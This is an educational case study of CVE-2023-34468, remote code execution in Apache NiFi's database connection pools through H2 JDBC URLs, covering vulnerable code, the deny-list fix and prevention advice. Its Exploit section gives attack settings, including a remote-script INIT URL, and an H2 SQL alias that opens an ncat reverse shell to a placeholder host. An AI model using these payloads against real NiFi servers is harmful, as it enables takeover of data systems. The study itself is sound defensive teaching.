

# MSCCS :: RCE In Apache NiFi

### Introduction:

In the world of data engineering, flexible and modular software components are essential for maintaining a production data pipeline. However, with this flexibility comes added complexity when implementing proper security controls. Core components often need to interface with a variety of other open-source systems, whether they be databases, message queues, or web APIs. While dynamic user configuration offers the most flexible and reusable solution, it frequently risks the uncontrolled generation of malicious code.

This underlying weakness is annually one of the CWE™ Top 25 Most Dangerous Software Weaknesses, ranking at #23 in 2023 and #11 in 2024. In 2023, an example of this weakness was found in several database connectors within the Apache NiFi platform. This case study will examine the weakness, the resulting vulnerability, what it allowed an adversary to accomplish, and how the issue was eventually mitigated. It will also provide commentary on the effectiveness of the remediation approach.

### Software:

- **Name:** Apache NiFi
- **Language:** Java
- **URL:** https://github.com/apache/nifi

### Weakness:

- <a href="https://cwe.mitre.org/data/definitions/20.html">CWE-20: Improper Input Validation</a>
- <a href="https://cwe.mitre.org/data/definitions/94.html">CWE-94: Improper Control of Generation of Code ('Code Injection')</a>

The first weakness exists when application's server component fails to properly validate untrusted user-controlled input leading to unexpected or undesirable outcomes on the server. 

The second weakness occurs when the aformentioned untrusted input is provided as configuration to select a database driver. This external configuration allows for the user the dynamically control which backend driver the application will load. Since certain database drivers allow for generation of arbitrary code, the underlying application may be vulnerable to code injection.



### Vulnerabilty:

<a href="https://www.cve.org/CVERecord?id=CVE-2023-34468">CVE-2023-34468</a> - Published 12 June 2023, Updated 28 September 2023

Apache NiFi is an open-source, distrubuted data processing system designed to automate various data flows betwen a wide range of systems. NiFi consists of a highly flexible processor / controller service framework that has fostered a rich ecosystem of pre-built components to interact with common technologies including (but not limited to) database systems, message queues, and APIs.

With this flexibility, comes the inherent risk of vulnerabilites simply due to the sheer attack surface. In 2023, a critical RCE vulnerabilty was found within a core abstraction for several database connector components that affected all major versions dating back to the inital release.

The vulnerability is due to a lack of input validation at the configuration layer for two core database connector components that are implemented as controller services:

- DBCPConnectionPool
- HikariCPConnectionPool

This configuration oversight allowed for the unintended use of the H2 database within the NiFi server's JVM. The H2 database is a lightweight, open-source relational database written in Java. The driver has a commonly used embedded mode, that runs inside the same JVM process as the application. While this functionality is very useful for application development and testing, it is not designed for untrusted environments since it assumes that both the environment and configuration is trusted.

With the ability to interact with an in-memory H2 database running inside the NiFi server's JVM, the user would be able to execute arbitrary Java code due to the database's UDF functionality. The following example is not malicious but illustrates the power of this feature.

```sql
CREATE ALIAS EXEC AS $$
void e(String cmd) throws java.io.IOException {
    java.lang.Runtime rt = java.lang.Runtime.getRuntime();
    rt.exec(cmd);
}
$$;
CALL EXEC('whoami')
```


#### DBCPConnectionPool

For the `DBCPConnectionPool`, the vulnerabilty stems from a lack of input validation on a `PropertyDescriptor` named `DATABASE_URL` within the `DBCPProperties`. This oversight allowed for mallicious use of the H2 database JAR (which is shipped by the default Apache NiFi distribution) to execute arbitrary Java code thus resulting in remote code execution.


```diff
vulnerable file: nifi-nar-bundles/nifi-extension-utils/nifi-dbcp-base/src/main/java/org/apache/nifi/dbcp/utils/DBCPProperties.java

 30 public final class DBCPProperties {
 31    private DBCPProperties() {
 32    }
 33    public static final PropertyDescriptor DATABASE_URL = new PropertyDescriptor.Builder()
 34            .name("Database Connection URL")
 35            .description("A database connection URL used to connect to a database. May contain database system name, host, port, database name and some parameters."
 36                    + " The exact syntax of a database connection URL is specified by your DBMS.")
 37            .defaultValue(null)
-38            .addValidator(StandardValidators.NON_EMPTY_VALIDATOR)
 39            .required(true)
 40            .expressionLanguageSupported(ExpressionLanguageScope.VARIABLE_REGISTRY)
 41            .build();
 ...
```

Per the lack of validation, this input was loaded via nifi's internal `ConfigurationContext` via an abstract function named `getDataSourceConfiguration`. This function was defined in the `AbstractDBCPConnectionPool` class and implemented in the concrete use of the abstraction. 

```diff
file:  nifi-nar-bundles/nifi-extension-utils/nifi-dbcp-base/src/main/java/org/apache/nifi/dbcp/AbstractDBCPConnectionPool.java

 81        final BasicDataSource dataSource = new BasicDataSource();
 82       try {
-83           final DataSourceConfiguration configuration = getDataSourceConfiguration(context);
 84           configureDataSource(context, configuration);

 ...

-158     protected abstract DataSourceConfiguration getDataSourceConfiguration(final ConfigurationContext context);
```

In the case of this vulnerabilty, it was utilized by the `DBCPConnectionPool` which provides an interface for database connection pooling.

```diff
file: nifi-nar-bundles/nifi-standard-services/nifi-dbcp-service-bundle/nifi-dbcp-service/src/main/java/org/apache/nifi/dbcp/DBCPConnectionPool.java

 210    @Override
 211   protected DataSourceConfiguration getDataSourceConfiguration(ConfigurationContext context) {
-212       final String url = context.getProperty(DATABASE_URL).evaluateAttributeExpressions().getValue();
-213       final String driverName = context.getProperty(DB_DRIVERNAME).evaluateAttributeExpressions().getValue();
 ...
```

From there the `DataSourceConfiguration` is used to build a `BasicDataSource` instance variable for the `AbstractDBCPConnectionPool` which is used to fetch `java.sql.Connection` objects from the underlying datasource via the `getConnection` method. 

```diff
 160 protected void configureDataSource(final ConfigurationContext context, final DataSourceConfiguration configuration) {
-161       final Driver driver = getDriver(configuration.getDriverName(), configuration.getUrl());
 162
-163       dataSource.setDriver(driver);

 ...

 220    @Override
 221   public Connection getConnection() throws ProcessException {
-222       return getConnection(dataSource, kerberosUser);
 223   }
 224
 225   private Connection getConnection(final BasicDataSource dataSource, final KerberosUser kerberosUser) {
 226       try {
 227           final Connection con;
 228           if (kerberosUser != null) {
 229               KerberosAction<Connection> kerberosAction = new KerberosAction<>(kerberosUser, dataSource::getConnection, getLogger());
 230              con = kerberosAction.execute();
 231           } else {
-232               con = dataSource.getConnection();
 233           }
 234           return con;
 ...
```

With all of this, NiFi is now going to interface with a SQL driver provided by the user regardless of what driver the user has selected. This exposes the underlying vulnerability, due to the H2 database JAR being put on the runtime classpath of the NiFi application.

#### HikariCPConnectionPool

Additionally, an implementation of the `DBCPService` interface named `HikariCPConnectionPool` was vulnerable due to the same validation mistake. I am not going to go into the same detail of how this input is utilized within this service, although it is very similar to the `DBCPConnectionPool`.

```diff
vulnerable file: nifi-nar-bundles/nifi-standard-services/nifi-dbcp-service-bundle/nifi-hikari-dbcp-service/src/main/java/org/apache/nifi/dbcp/HikariCPConnectionPool.java

 65 public class HikariCPConnectionPool extends AbstractControllerService implements DBCPService {
 66   /**
 67    * Property Name Prefix for Sensitive Dynamic Properties
 68    */
 69   protected static final String SENSITIVE_PROPERTY_PREFIX = "SENSITIVE.";
 70  protected static final long INFINITE_MILLISECONDS = -1L;
 71   private static final String DEFAULT_TOTAL_CONNECTIONS = "10";
 72   private static final String DEFAULT_MAX_CONN_LIFETIME = "-1";
 73   public static final PropertyDescriptor DATABASE_URL = new PropertyDescriptor.Builder()
 74           .name("hikaricp-connection-url")
 75           .displayName("Database Connection URL")
 76           .description("A database connection URL used to connect to a database. May contain database system name, host, port, database name and some parameters."
 77                   + " The exact syntax of a database connection URL is specified by your DBMS.")
 78           .defaultValue(null)
-79           .addValidator(StandardValidators.NON_EMPTY_VALIDATOR)
 80           .required(true)
 ...
```

### Exploit:

To exploit this vulnerability, an adversary can configure a `DBCPConnectionPool` with the following properties:

|Property|Value|
|--------|-----|
|Database Connection URL | `jdbc:h2:mem:tempdb;TRACE_LEVEL_SYSTEM_OUT=3` |
|Database Driver Class Name | `org.h2.Driver` |
|Database Driver Location | `work/nar/extensions/nifi-poi-nar-1.21.0.nar-unpacked/NAR-INF/bundled-dependencies/h2-2.1.214.jar` |

**NOTE: The `Database Connection URL` can be given an initalization script to automatically create and execute the malicous java code (`INIT=RUNSCRIPT FROM "http://{REMOTE-HOST}"`)**

Now any processor configured to use the `DBCPConnectionPool` will utilize the underlying embedded H2 database driver when connections are requested. Now malicious UDFs can be created an executed on the advarsary's command. The following is an example exploitation via a reverse shell:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.Exception {
    String[] cmd = {"bash", "-c", cmd};
    java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : ""; }
$$;
CALL SHELLEXEC('ncat -e /bin/bash {REMOTE-IP} {REMOTE-PORT}')
```

### Fix:

To resolve this issue the source code was modified to include input validation on the `DATABASE_URL` to prevent the use of the H2 database all-together. This approach was taken because the NiFi developers did not intend for the H2 embedded database to be used as a data source and the community supported the removal of the functionality.

The input validation was implemented via the `ConnectionUrlValidator` class which implements NiFi's `Validator` interface.

```diff
fixed file: nifi-nar-bundles/nifi-extension-utils/nifi-dbcp-base/src/main/java/org/apache/nifi/dbcp/utils/DBCPProperties.java

+23 import org.apache.nifi.dbcp.ConnectionUrlValidator;
 
 ...

 33 public final class DBCPProperties {
 33    private DBCPProperties() {
 34    }
 35    public static final PropertyDescriptor DATABASE_URL = new PropertyDescriptor.Builder()
 36            .name("Database Connection URL")
 37            .description("A database connection URL used to connect to a database. May contain database system name, host, port, database name and some parameters."
 38                    + " The exact syntax of a database connection URL is specified by your DBMS.")
 39            .defaultValue(null)
-40            .addValidator(StandardValidators.NON_EMPTY_VALIDATOR)
+41              .addValidator(new ConnectionUrlValidator())
 39            .required(true)
 40            .expressionLanguageSupported(ExpressionLanguageScope.VARIABLE_REGISTRY)
 41            .build();
 ...
```

The `HikariCPConnectionPool` was resolved using the same validator class:

```diff
fixed file: nifi-nar-bundles/nifi-standard-services/nifi-dbcp-service-bundle/nifi-hikari-dbcp-service/src/main/java/org/apache/nifi/dbcp/HikariCPConnectionPool.java

 65 public class HikariCPConnectionPool extends AbstractControllerService implements DBCPService {
 66   /**
 67    * Property Name Prefix for Sensitive Dynamic Properties
 68    */
 69   protected static final String SENSITIVE_PROPERTY_PREFIX = "SENSITIVE.";
 70  protected static final long INFINITE_MILLISECONDS = -1L;
 71   private static final String DEFAULT_TOTAL_CONNECTIONS = "10";
 72   private static final String DEFAULT_MAX_CONN_LIFETIME = "-1";
 73   public static final PropertyDescriptor DATABASE_URL = new PropertyDescriptor.Builder()
 74           .name("hikaricp-connection-url")
 75           .displayName("Database Connection URL")
 76           .description("A database connection URL used to connect to a database. May contain database system name, host, port, database name and some parameters."
 77                   + " The exact syntax of a database connection URL is specified by your DBMS.")
 78           .defaultValue(null)
-79           .addValidator(StandardValidators.NON_EMPTY_VALIDATOR)
+79           .addValidator(new ConnectionUrlValidator())
 80           .required(true)
 ...
```

The `ConnectionURLValidator` takes a flexible approach of defining a series of unsupported schemes, and ensuring they are used within the raw input. The string literal `jbdc:h2` is explicitly defined as an unsupported scheme and therefore disallowing its use within the underlying configuration.

```diff
fixed file: nifi-nar-bundles/nifi-standard-services/nifi-dbcp-service-api/src/main/java/org/apache/nifi/dbcp/ConnectionUrlValidator.java

+29    public class ConnectionUrlValidator implements Validator {
+30        private static final Set<String> UNSUPPORTED_SCHEMES = Collections.singleton("jdbc:h2");

...        

+54        private boolean isUrlUnsupported(final String url) {
+55            boolean unsupported = false;
+56
+57            for (final String unsupportedScheme : UNSUPPORTED_SCHEMES) {
+58                if (url.startsWith(unsupportedScheme)) {
+59                    unsupported = true;
+60                    break;
+61                }
+62            }
+63
+64            return unsupported;
+65        }
+66    }
```

As you can see, the approach to fixing this vulnerability is essentially to blacklist certain input criteria from being used as configuration. While this approach did prevent the underlying vulnerability as described in <a href="https://www.cve.org/CVERecord?id=CVE-2023-34468">CVE-2023-34468</a>, it only prevents one particular bad input. More commentary on this fix can be found in the [Prevention](#prevention) section below.

### Prevention:

To mitigate the risk associated with this vulnerability, developers must ensure that input validation is in place for all untrusted inputs. Preferably inputs should be scrubbed with an allow-list (i.e. whitelist) that describes specifically what inputs are acceptable for any given field.

In this case study the Apache NiFI developers settled on using a deny-list to prevent the use of the H2 embedded database altogether. While this approach is sufficient for the vulnerability, the approach is not as secure as redesigning the configuration to use an allow-list. This is 
because security concerns must be known at the time of implementation in order for a deny-list to work appropriately. And of course this is why the H2 database slipped through the cracks in the first place.

The flexible driver design where users have complete control over what driver is used could be replaced with an enumerated set of supported driver platforms. This approach would have prevented the unintended use of the H2 database because the developers would have never supported it in the first place.

With that being said, since the design of the underlying technology is striving to be flexible for future extension, I understand the choices made by the developers. Trade offs were being made between flexibility and security, which is a very common theme accross all of software. Which makes it all the more important that 3rd party users of open source software understand the risks of flexibility.

Following the patch made in version 1.22.0, another validation related <a href="https://www.cve.org/CVERecord?id=CVE-2023-40037">CVE-2023-40037</a> was found for the exact same connector services, which required developers to add more validation in the `ConnectionURLValidator` to prevent more unintended consequences. This aligns with another CWE (<a href="https://cwe.mitre.org/data/definitions/184.html">CWE-184</a>) and is all the more reason for a redesigned approach.

### Conclusion:

In conclusion, the vulnerability required immediate action by the development team and should be addressed by any organization using the tool in a production environment. This particular vulnerability illustrates the pros and cons of flexible application design, and how unchecked extensibility can lead to unintended consequences. It also exemplifies the importance of assumptions made by open-source technolgies, and when they align with use in a production enviroment.

Untrusted input comes in a wide variety of different formats and mediums, and it is paramount that developers protect systems at the front door so that applications behave as expected, and don't allow for uncontrolled access to anything beyond the developer's intention.

### References:

- Project Repository: https://github.com/apache/nifi
- CVE-2023-34468 Entry: https://www.cve.org/CVERecord?id=CVE-2023-34468
- CWE-20 Entry: https://cwe.mitre.org/data/definitions/20.html
- CWK-94 Entry: https://cwe.mitre.org/data/definitions/94.html
- NV Vulnerabilty Report: https://nvd.nist.gov/vuln/detail/cve-2023-34468
- Apache NiFi Security Reporting: https://nifi.apache.org/documentation/security/
- Apache NiFi v1.22.0 Release Notes: https://issues.apache.org/jira/secure/ReleaseNote.jspa?projectId=12316020&version=12353069
- JIRA Issue: https://issues.apache.org/jira/browse/NIFI-11653
- Patch Pull Request: https://github.com/apache/nifi/pull/7349/commits/6e064a8bdef1cd4f91ea8f42ee16a3675d2f9a9d
- Exploitation Guide: https://github.com/mbadanoiu/CVE-2023-34468/blob/main/Apache%20NiFi%20-%20CVE-2023-34468.pdf

### Contributions:
 Originally created by Alexander Castro - GMU Graduate Student <br>
 Reviewed by David A. Wheeler - GMU Professor

(C) 2025 The MITRE Corporation. All rights reserved.<br>
This work is openly licensed under <a href="https://creativecommons.org/licenses/by/4.0/">CC-BY-4.0</a>